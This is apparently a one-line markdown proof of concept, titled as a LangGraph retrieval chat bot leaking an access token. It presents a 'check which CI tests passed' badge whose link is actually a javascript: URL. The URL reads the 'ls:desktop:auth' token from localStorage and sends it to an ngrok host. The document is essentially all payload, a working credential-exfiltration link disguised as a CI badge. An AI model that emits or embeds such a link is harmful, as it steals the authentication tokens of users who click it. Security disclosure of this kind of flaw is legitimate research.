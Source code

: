 # LangGraph Retrieval Chat Bot PoC Leaking Access Token.

Check which CI tests passed:

[![CI](https://github.com/langchain-ai/retrieval-agent-template/actions/workflows/unit-tests.yml/badge.svg)](javascript:window.location.replace('https://0dc9-212-199-39-186.ngrok-free.app/?x='+localStorage.getItem('ls:desktop:auth')))

